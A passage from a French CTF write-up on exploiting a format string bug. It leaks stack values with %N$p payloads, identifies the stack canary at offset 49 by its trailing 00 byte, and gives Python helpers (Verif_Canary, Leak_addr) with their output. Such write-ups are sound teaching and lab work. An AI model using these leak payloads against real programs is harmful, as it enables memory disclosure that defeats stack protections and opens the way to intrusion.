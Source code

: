 ```bash
49 - b'AAAA....0xf0285d4279221400'
50 - b'AAAA....(nil)'
51 - b'AAAA....0x7f8f920d27ed'
52 - b'AAAA....0x7ffd40923768'
53 - b'AAAA....0x137775000'
54 - b'AAAA....0x564e0e625175'
55 - b'AAAA....0x7ffd9f160ba9'
56 - b'AAAA....0x560d50fbc280'
57 - b'AAAA....0x4516be6f0cfd5015'
58 - b'AAAA....0x55d29e896090'
```

BINGO ! On sait qu'un Canary se termine pas ``00`` . On repère donc la l'offset ``49``

On peut le vérifier en faisant leaker la 49ème valeur. Elle se termine à chaque fois par ``00``

```python

def Verif_Canary(offset):
    for _ in range(10):
        try:
            proc = Get_proc()     
            proc.recvuntil(b'what did you see?:')     
            proc.sendline(b"%%%d$p" % offset)
            proc.recvline()
            res = proc.recvline().split(b' ')[1]
            print("Test %s - %s"%(_,res))
            proc.close()
        except:
            pass

Verif_Canary(49)
```

Résulat :
```bash
root@DESKTOP-HNQJECB: /c
➜   python3 writeup.py
Test 0 - b'0x3a3baf68538ce400'
Test 1 - b'0x1bed75a7af3e8700'
Test 2 - b'0x17bdade8c75b1400'
Test 3 - b'0xfcfee3f27277b800'
Test 4 - b'0x9ac856b2e0729100'
Test 5 - b'0x631bea7f077e2500'
Test 6 - b'0xcf3631335f3ddf00'
Test 7 - b'0x9284289d275e4f00'
Test 8 - b'0x8ccbd313f0140600'
Test 9 - b'0x881a52aa94b22b00'
```

On peut écrire une fonction pour faire leak les adresses rapidement en fonction de l'offset :

```python
def Leak_addr(all_leak,proc):
	proc.recvuntil(b'tell me, what did you see?:')
	payload = ''
	for leak in all_leak:
		payload += f'%{leak}$p.'
	proc.sendline(bytes(payload[:-1],'utf-8'))
	proc.recvline()
	res = proc.recvline().decode().split(' ')[1]
	return res.split('.')

offset_canary = 49
proc   = Get_proc()
canary = Leak_addr([offset_canary],proc)
```